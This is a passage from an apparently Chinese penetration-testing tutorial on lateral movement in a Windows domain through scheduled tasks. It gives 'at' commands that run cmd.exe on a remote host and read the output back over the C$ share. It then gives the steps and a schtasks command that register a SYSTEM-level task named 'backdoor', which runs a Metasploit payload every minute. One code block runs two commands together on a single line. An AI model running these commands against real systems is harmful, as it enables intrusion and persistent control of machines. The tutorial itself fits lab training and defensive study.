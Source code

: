 除了就像上面那样利用计划任务执行木马程序获得主机权限外，我们还可以利用at计划任务直接执行系统命令，但由于不会回显，所以我们要将执行的结果写入到一个文本文件中，然后远程读取：

```


```
at \\192.168.183.130 17:05:00 cmd.exe /c "ipconfig > C:\Users\Administrator\result.txt"at \\192.168.183.130 17:05:00 cmd.exe /c "<命令>" > 目录\result.txt
```




```

![](data:image/gif;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAADUlEQVQImWNgYGBgAAAABQABh6FO1AAAAABJRU5ErkJggg==)

然后用type命令远程读取该文本文件：

```


```
type \\192.168.183.130\c$\Users\Administrator\result.txt
```




```

![](data:image/gif;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAADUlEQVQImWNgYGBgAAAABQABh6FO1AAAAABJRU5ErkJggg==)

如上图所示，命令执行成功。

### 利用 **schtasks 命令**

上面我们讲了用at命令创建计划任务，但是该命令已经被Windows Vista、Windows Server 2008及之后版本的操作系统废弃了，代替他的是schtasks命命令。schtasks命令比at命令更为灵活、自由。下面来演示schtasks命令的使用，于是，攻击者开始使用schtasks命令来代替at命令。

利用schtasks命令创建计划任务进行横向移动的操作流程如下：

1. 先与目标主机建立ipc连接。

2. 然后使用copy命令远程操作，将metasploit生成的payload文件shell.exe复制到目标系统C盘中。

3. 在目标主机DC上创建一个名称为“backdoor”的计划任务。该计划任务每分钟启动一次，启动程序为我们之前到C盘下的shell.exe，启动权限为system。命令如下：

```


```
schtasks /create /s 192.168.183.130 /tn backdoor /sc minute /mo 1  /tr c:\shell.exe /ru system /f
```




```
